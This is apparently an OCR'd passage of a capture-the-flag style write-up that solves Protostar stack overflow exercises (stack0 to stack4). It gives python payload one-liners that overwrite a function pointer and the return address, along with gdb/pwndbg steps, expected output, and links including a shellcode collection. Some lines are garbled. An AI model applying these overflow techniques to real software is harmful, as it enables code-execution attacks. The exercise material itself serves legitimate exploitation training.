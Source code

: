 
12. pwndbg> telescope $rbp-8 1
    gef> dereference $rbp-8 1

   should get something like:
   `00:0000│ rdi-2  0x7fffffffde38 ◂— 0x4077 /* 'w@' */`
                          				^you have changed the value to 
                          				 0x4077

13. You did NOT enter the correct address because `\x00` and `\x05` are not
    printable in ASCII, so those bytes were left out.

    To fix these we're going back to the simple step-by-step so these
    values can be entered and we can get the correct address

14. `python -c "print 'A' * 72 + '\x77\x05\x40\x00'" | ./stack3`
                            ^     ^the address backwards cause little endian
                            |
                            may have to play with this number

    Output:
    ```
    calling function pointer, jumping to 0x00400577
    code flow successfully changed
    ```



# stack4: Controlling the EIP/RIP Register 
------------------------------------------------------------------------
[Simple]: python -c "print 'A' * 72 + '\x37\x05\x40\x00\x00\x00'" | ./stack4

[Detailed]: Step-by-Step
1. `chmod +x stack4`
2. python -c "print 'A' * 72 + '\x37\x05\x40\x00\x00\x00'" > arg
   Put this output into a file called arg

2. `gdb stack4`
3. gdb> break main
4. gdb> run < arg
   Run this executable while taking in the contetns of the arg file as input

5. gdb> next 11
6. pwndbg> telescope $rbp
   gef>  dereference $rbp

   Should see something like (pwndbg):
   ```
   00:0000│ rbp    0x7fffffffde70 ◂— 0x4141414141414141 ('AAAAAAAA')
   01:0008│ rdi-6  0x7fffffffde78 —▸ 0x400537 (win) ◂— 0x3d8d4890e5894855
   ```

7. > next

	Note that the `leave` instruction is exactly equivalent to
	```
	mov   $rbp, $rsp     # rsp = rbpt
	pop   %ebp
	```


[Pwndgb]: https://github.com/pwndbg/pwndbg
[GEF]: https://github.com/hugsy/gef
[My gdbinit]: $ cat ~/.gdbinit
[Reference Stack 0-7]: https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
[Reference Stack6]: https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6
[Simple]: python -c "print('A' * 77)" | ./stack0
[Simple]:  ./stack1 $(python -c "print 'A' * 76 + '\x64\x63\x62\x61'")
[Simple]: GREENIE=$(python -c "print 'A' * 68 + '\x0a\x0d\x0a\x0d'") ./stack2
[Simple]: Step-by-Step
[Shellcode]: http://shell-storm.org/shellcode/